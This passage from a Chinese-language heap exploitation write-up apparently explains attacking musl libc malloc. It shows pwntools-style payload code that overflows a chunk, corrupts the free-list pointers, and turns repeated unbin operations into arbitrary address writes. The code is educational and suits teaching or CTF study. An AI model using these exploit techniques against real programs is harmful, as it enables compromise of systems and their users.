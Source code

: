 首先分配 4 个大小为 0x20 字节的 chunk，然后释放 chunk 1 和 chunk 3。释放的 chunk 进入到`mal.bins[0]`链表，`mal.bins[0]-&gt;head`指针指向 chunk 1。

```
bin = libc_base + 0x292e40 # mal.bins[38]-&gt;head

next = bin - 0x10
prev = fake_chunk

payload  = 'X' * 0x10
payload += p64(0x21) * 2 + 'X' * 0x10
payload += p64(0x21) + p64(0x20) + p64(next) + p64(prev)
payload += p8(0x20)
payload += 'n'

add(0x10, payload, 'Y') #1, heap overflow
```

然后分配一个 0x20 字节 chunk，malloc 从`mal.bins[0]`取出`head`指针指向的 chunk 1，更新`head`指针指向 chunk 3。堆溢出 chunk 1，改写 chunk 3 `prev`指针、`next`指针为 fake chunk 地址、`mal.bins[38]-&gt;head`指针地址。

```
add(0x10) # 3, unbin #1
```

再次分配 0x20 字节 chunk，malloc 对 chunk 3 进行 unbin，将 fake chunk 地址写到`mal.bins[38]-&gt;head`指针上。

```
add(0x50) # 5, fake chunk
```

最后分配一个 0x60 字节的 chunk，malloc 从`mal.bins[38]`取出 fake chunk，返回 fake chunk 地址。

```
edit(3, p64(next) + p64(prev2))
add(0x10) # 3, unbin #2
add(0x50) # 5, fake_chunk #2

edit(3, p64(next) + p64(prev3))
add(0x10) # 3, unbin #3
add(0x50) # 6, fake_chunk #3

edit(3, p64(next) + p64(prev4))
add(0x10) # 3, unbin #4
add(0x50) # 7, fake_chunk #4

edit(3, p64(next) + p64(prev5))
add(0x10) # 3, unbin #5
add(0x50) # 8, fake_chunk #5

[......]
```

由于`mal.bins[0]`链表已被破坏，`mal.bins[0]-&gt;head`指针不再更新，继续指向 chunk 3。通过不断修改 chunk 3 的`prev`指针，我们可以实现多次任意地址写。

#### <a class="reference-link" name="4.2.2%20%E6%9E%84%E9%80%A0%20fake%20chunk"></a>4.2.2 构造 fake chunk
